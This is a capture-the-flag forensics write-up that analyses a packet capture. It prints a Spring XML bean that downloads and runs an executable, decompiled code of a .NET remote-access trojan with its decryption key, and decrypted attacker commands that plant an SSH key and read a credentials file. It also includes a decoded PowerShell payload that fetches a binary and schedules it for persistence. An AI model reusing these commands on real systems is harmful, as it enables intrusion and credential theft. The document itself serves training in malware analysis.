

# Cyber Apocalypse 2024

## Data Siege

> "It was a tranquil night in the Phreaks headquarters, when the entire district erupted in chaos. Unknown assailants, rumored to be a rogue foreign faction, have infiltrated the city's messaging system and critical infrastructure. Garbled transmissions crackle through the airwaves, spewing misinformation and disrupting communication channels. We need to understand which data has been obtained from this attack to reclaim control of the and communication backbone. Note: flag is splitted in three parts."
> 
> Author: n/a
> 
> [`forensics_data_siege.zip`](forensics_data_siege.zip)

Tags: _forensics_

## Solution
For this challenge a `pcap` is given. Here we use [`NetworkMiner`](https://www.netresec.com/?page=NetworkMiner) to analyze the file. 



We can see some files where transferred, so lets check them out. The xml files are identical and invoke some web request, downloading an executable.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="fgCggZBK" class="java.lang.ProcessBuilder" init-method="start">
  <constructor-arg>
    <list>
      <value>cmd.exe</value>
      <value>/c</value>
      <value><![CDATA[powershell Invoke-WebRequest 'http://10.10.10.21:8000/aQ4caZ.exe' -OutFile 'C:\temp\aQ4caZ.exe'; Start-Process 'c:\temp\aQ4caZ.exe']]></value>
    </list>
  </constructor-arg>
</bean>
</beans>
```

The executable is a .NET binary, so we can easily reverse this with [`dnSpy`](https://github.com/dnSpy/dnSpy). We can see its a [`Windows Forms`](https://learn.microsoft.com/en-us/dotnet/desktop/winforms/overview/) application with the functionality of an `trojan`.

```cs
private static void Main(string[] args)
{
    AppDomain.CurrentDomain.ProcessExit += Program.CurrentDomain_ProcessExit;
    IntPtr consoleWindow = Program.GetConsoleWindow();
    Program.ShowWindow(consoleWindow, Constantes.SW_SHOW);
    try
    {
        Program.ConnectToServer();
        Program.RequestLoop();
    }
    catch (SocketException ex)
    {
        bool flag = !Program.client.Connected && Program.connectedBefore;
        if (flag)
        {
            Console.WriteLine("Disconnected");
        }
    }
}

public static void ConnectToServer()
{
    int num = 0;
    while (!Program._clientSocket.Connected)
    {
        try
        {
            num++;
            Console.WriteLine("Connection attempt " + num.ToString());
            Program._clientSocket.Connect(IPAddress.Parse(Constantes.Ip), Constantes.Port);
            Thread.Sleep(500);
        }
        catch (SocketException)
        {
            Console.Clear();
        }
    }
    Console.Clear();
    Console.WriteLine("Connected");
}

private static void RequestLoop()
{
    for (;;)
    {
        bool flag = !Program._clientSocket.Connected;
        if (flag)
        {
            break;
        }
        Program.ReceiveResponse();
    }
    Console.WriteLine("Connection Ended");
    Program._clientSocket = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
    Program.ConnectToServer();
    Program.isDisconnect = false;
    Program.RequestLoop();
}
```

First the application connects to an server and then waits for commands the server sends.

```cs
private static void ReceiveResponse()
{
    byte[] array = new byte[4096];
    try
    {
        int num = Program._clientSocket.Receive(array, SocketFlags.None);
        bool flag = num == 0;
        if (!flag)
        {
            byte[] array2 = new byte[num];
            Array.Copy(array, array2, num);
            bool flag2 = Program.isFileDownload;
            if (flag2)
            {
                Buffer.BlockCopy(array2, 0, Program.recvFile, Program.writeSize, array2.Length);
                Program.writeSize += array2.Length;
                bool flag3 = Program.writeSize == Program.fup_size;
                if (flag3)
                {
                    using (FileStream fileStream = File.Create(Program.fup_location))
                    {
                        byte[] array3 = Program.recvFile;
                        fileStream.Write(array3, 0, array3.Length);
                    }
                    Array.Clear(Program.recvFile, 0, Program.recvFile.Length);
                    Program.SendCommand("frecv");
                    Program.writeSize = 0;
                    Program.isFileDownload = false;
                }
            }
            else
            {
                string @string = Encoding.Default.GetString(array2);
                Console.WriteLine(@string);
                string[] commands = Program.GetCommands(@string);
                foreach (string cipherText in commands)
                {
                    Program.HandleCommand(Program.Decrypt(cipherText));
                }
            }
        }
    }
    catch (Exception ex)
    {
        Console.WriteLine("Connection ended\n" + ex.Message);
        Program.isDisconnect = true;
    }
}
```

The interesting bit here is, that the commands are transferred decrypted. But since the client decrypts the commands we have everything to do this on our own as well. After decryption, the command is handled via `HandleCommand` function. In `ParseAndExecute` we can see there are quite a few commands the server can give the client.

```bash
getinfo-        get info like local ip address, machine name, username and windows version
dc              disconnect
lsdrives        list drives
lsfiles-<path>  list files in path
chat            view chat window
dlfile          download a file
upfile          upload a file
dtfile          delete a file
rmfile          move a file
procview        list current processes
scrnshot        send screenshot
cmd             execute command
control 0/1/2   shutdown
sysinfo         send system information
msgbox          show a message box
screenspy       send frequently screenshots
```

The interesting bit is the decrypt method:

```cs
public static string Decrypt(string cipherText)
{
    string result;
    try
    {
        string encryptKey = Constantes.EncryptKey;
        byte[] array = Convert.FromBase64String(cipherText);
        using (Aes aes = Aes.Create())
        {
            Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[]
            {
                86,
                101,
                114,
                121,
                95,
                83,
                51,
                99,
                114,
                51,
                116,
                95,
                83
            });
            aes.Key = rfc2898DeriveBytes.GetBytes(32);
            aes.IV = rfc2898DeriveBytes.GetBytes(16);
            using (MemoryStream memoryStream = new MemoryStream())
            {
                using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
                {
                    cryptoStream.Write(array, 0, array.Length);
                    cryptoStream.Close();
                }
                cipherText = Encoding.Default.GetString(memoryStream.ToArray());
            }
        }
        result = cipherText;
    }
    catch (Exception ex)
    {
        Console.WriteLine(ex.Message);
        Console.WriteLine("Cipher Text: " + cipherText);
        result = "error";
    }
    return result;
}
```

We can see it uses `AES` to decrypt with the decryption key being `VYAemVeO3zUDTL6N62kVA`. So we extract the traffic between server and client (`10.10.10.21:1234`) and decrypt the commands. Running the [`program`](decrypt.cs) gives us the following output:

```bash
>>> getinfo-0

<<< infoback;0;10.10.10.22|SRV01|SRV01\svc01|Windows 10 Enterprise Evaluation|0.1.6.1

>>> procview;

<<< procview;svchost?2060;svchost?5316;ApplicationFrameHost?4920;csrss?388;svchost?1372;svchost?832;VBoxTray?2748;fontdrvhost?684;services?576;svchost?3528;lsass?584;svchost?6872;svchost?1552;spoolsv?1748;VBoxService?1156;svchost?760;conhost?4108;svchost?1152;dllhost?6864;svchost?2528;svchost?1936;Memory Compression?1428;RuntimeBroker?4692;svchost?4112;svchost?1932;svchost?748;smss?284;svchost?1140;svchost?6852;svchost?2320;MicrosoftEdge?5076;svchost?1332;svchost?740;svchost?3888;conhost?4896;dwm?340;java?6052;svchost?928;svchost?3488;YourPhone?1320;svchost?1516;dllhost?4204;SearchUI?4664;svchost?328;winlogon?524;SgrmBroker?6628;svchost?2096;svchost?1504;cmd?2488;svchost?1304;NisSrv?2336;MicrosoftEdgeSH?5636;svchost?1104;browser_broker?4592;svchost?1100;svchost?5284;explorer?4052;svchost?1164;svchost?2076;svchost?1680;aQ4caZ?7148;svchost?692;svchost?100;dumpcap?3516;MsMpEng?2260;RuntimeBroker?4820;svchost?1272;Microsoft.Photos?6392;svchost?3436;fontdrvhost?676;cmd?84;taskhostw?3628;RuntimeBroker?6188;RuntimeBroker?1384;java?7028;MicrosoftEdgeCP?5592;svchost?1256;svchost?3816;csrss?464;Registry?68;sihost?3416;SecurityHealthSystray?3156;svchost?6368;svchost?6564;wininit?456;ctfmon?3940;svchost?1636;SecurityHealthService?844;svchost?1040;svchost?2024;svchost?6980;svchost?1628;svchost?1824;svchost?1288;wlms?2216;RuntimeBroker?5564;svchost?5364;svchost?1620;svchost?2012;svchost?396;svchost?6540;RuntimeBroker?6780;WindowsInternal.ComposableShell.Experiences.TextInput.InputApp?2200;svchost?1604;svchost?788;svchost?1400;uhssvc?6824;SearchIndexer?5532;svchost?4940;svchost?3560;svchost?1392;svchost?1588;svchost?1784;wrapper?2176;svchost?2568;ShellExperienceHost?4536;System?4;conhost?2368;OneDrive?1184;svchost?1472;Idle?0;

>>> cmd;C:\;hostname

<<< cmd;C:\;srv01


>>> cmd;C:\;whoami

<<< cmd;C:\;srv01\svc01


>>> cmd;C:\;echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwyPZCQyJ/s45lt+cRqPhJj5qrSqd8cvhUaDhwsAemRey2r7Ta+wLtkWZobVIFS4HGzRobAw9s3hmFaCKI8GvfgMsxDSmb0bZcAAkl7cMzhA1F418CLlghANAPFM6Aud7DlJZUtJnN2BiTqbrjPmBuTKeBxjtI0uRTXt4JvpDKx9aCMNEDKGcKVz0KX/hejjR/Xy0nJxHWKgudEz3je31cVow6kKqp3ZUxzZz9BQlxU5kRp4yhUUxo3Fbomo6IsmBydqQdB+LbHGURUFLYWlWEy+1otr6JBwpAfzwZOYVEfLypl3Sjg+S6Fd1cH6jBJp/mG2R2zqCKt3jaWH5SJz13 HTB{c0mmun1c4710n5 >> C:\Users\svc01\.ssh\authorized_keys

<<< cmd;C:\;

>>> cmd;C:\;dir C:\Users\svc01\Documents

<<< cmd;C:\; Volume in drive C is Windows 10
 Volume Serial Number is B4A6-FEC6

 Directory of C:\Users\svc01\Documents

02/28/2024  07:13 AM    <DIR>          .
02/28/2024  07:13 AM    <DIR>          ..
02/28/2024  05:14 AM                76 credentials.txt
               1 File(s)             76 bytes
               2 Dir(s)  24,147,230,720 bytes free


>>> cmd;C:\;type C:\Users\svc01\Documents\credentials.txt

<<< cmd;C:\;Username: svc01
Password: Passw0rdCorp5421

2nd flag part: _h45_b33n_r357

>>> lsdrives

<<< lsdrives;C:\|

>>> lsfiles

>>> lsfiles-C:\
lsfiles-C:\

<<< lsfiles;C:\;$Recycle.Bin?2|BGinfo?2|Boot?2|Documents and Settings?2|PerfLogs?2|Program Files?2|Program Files (x86)?2|ProgramData?2|Recovery?2|System Volume Information?2|temp?2|Users?2|Windows?2|bootmgr?1?408364|BOOTNXT?1?1|BOOTSECT.BAK?1?8192|bootTel.dat?1?80|pagefile.sys?1?738197504|swapfile.sys?1?268435456|

>>> lsfiles-C:\temp\

<<< lsfiles;C:\temp\;aQ4caZ.exe?1?29184|

>>> upfile;C:\temp\4AcFrqA.ps1

<<< The input is not a valid Base-64 string as it contains a non-base 64 character, more than two padding characters, or an illegal character among the padding characters.
Cipher Text: powershell.exe -encoded "CgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwBpAG4AZABvAHcAcwBsAGkAdgBlAHUAcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8AMQBuAF8ANwBoADMAXwBoADMANABkAHEAdQA0AHIANwAzAHIANQB9ACIAIAAtAEEAYwB0AGkAbwBuACAAJABhAGMAdABpAG8AbgAgAC0AVAByAGkAZwBnAGUAcgAgACQAdAByAGkAZwBnAGUAcgAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzAGUAdAB0AGkAbgBnAHMACgA="AcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8
error

<<< upfilestop;
```

In command `5` we can see the first part of our flag `HTB{c0mmun1c4710n5`. Command `7` reads the content of `credentials.txt` which contains the second part of the flag `_h45_b33n_r357`.

The last command uploads a powershell script. The script encodes a `base64` payload. If we decode the payload we get:

```powershell
(New-Object System.Net.WebClient).DownloadFile("https://windowsliveupdater.com/4fva.exe", "C:\Users\svc01\AppData\Roaming\4fva.exe")

$action = New-ScheduledTaskAction -Execute "C:\Users\svc01\AppData\Roaming\4fva.exe"

$trigger = New-ScheduledTaskTrigger -Daily -At 2:00AM

$settings = New-ScheduledTaskSettingsSet

# 3th flag part:

Register-ScheduledTask -TaskName "0r3d_1n_7h3_h34dqu4r73r5}" -Action $action -Trigger $trigger -Settings $settings
```

And with it we also get the last part of the flag.

Flag `HTB{c0mmun1c4710n5_h45_b33n_r3570r3d_1n_7h3_h34dqu4r73r5}`